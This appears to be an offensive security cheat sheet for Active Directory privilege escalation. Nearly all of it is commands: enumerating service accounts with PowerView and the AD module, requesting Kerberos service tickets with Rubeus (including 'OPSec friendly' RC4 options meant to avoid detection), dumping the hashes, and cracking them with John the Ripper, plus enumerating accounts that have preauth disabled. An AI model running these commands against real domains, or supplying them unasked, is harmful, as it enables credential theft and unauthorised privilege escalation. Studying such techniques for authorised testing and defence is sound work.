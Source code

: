 ## Privilege Escalation

### Kerberoasting

#### Find Accounts used as Service Accounts - Powerview
```PowerShell
Get-DomainUser -SPN
```
##### Active Directory Module
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

#### List Kerberoast Stats - Rubeus
```powershell
Rubeus.exe kerberoast /stats
```

#### Request a TGS - Rubeus
```powershell
Rubeus.exe kerberoast /user:svcadmin /simple
```

#### Kerberoastable with only RC4_HMAC - More OPSec Friendly
```powershell
Rubeus.exe kerberoast /stats /rc4opsec
```
```powershell
Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec
```

#### All kerberoastable Account - Rubeus
```powershell
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

#### Crack ticket using John the Ripper
```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

### Kerberoasting - AS-REPs

#### Enumerate Accounts with Kerberos Preauth Disabled - Powerview
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```

##### Active Directory Module
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
